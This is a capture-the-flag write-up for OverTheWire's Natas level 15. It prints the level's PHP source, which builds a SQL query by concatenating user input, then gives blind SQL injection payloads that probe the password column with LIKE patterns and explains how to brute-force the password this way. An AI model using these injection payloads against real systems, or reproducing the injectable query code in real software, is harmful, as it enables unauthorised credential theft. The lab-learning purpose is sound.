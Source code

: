 # Natas 15 -> 16

```
http://natas15.natas.labs.overthewire.org
```

```
Username: natas15
```

This time we have a form that checks the existence of a user, also the source code:

```php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? }
```

Let's try again the same sqli from the previous level

```
?username=q" or 1="1
```

Works.  
What about...

```
?username=natas16
```

Yep. ` This user exists.`  
But that's not what we're after. Since we already know that the table `users` has a column `username` and a column `password`, let's try...

```
?username=natas16%22%20AND%20password%20LIKE%20%22%c%&debug=1
```

Great. That prints

```
Executing query: SELECT * from users where username="natas16" AND password LIKE "%c%"
This user exists.
```

So basically we need to *bruteforce* our way into `natas16`.  
Hint: so far the passwords had a length of 32 chars.


* php
* mysql_connect
* sqli
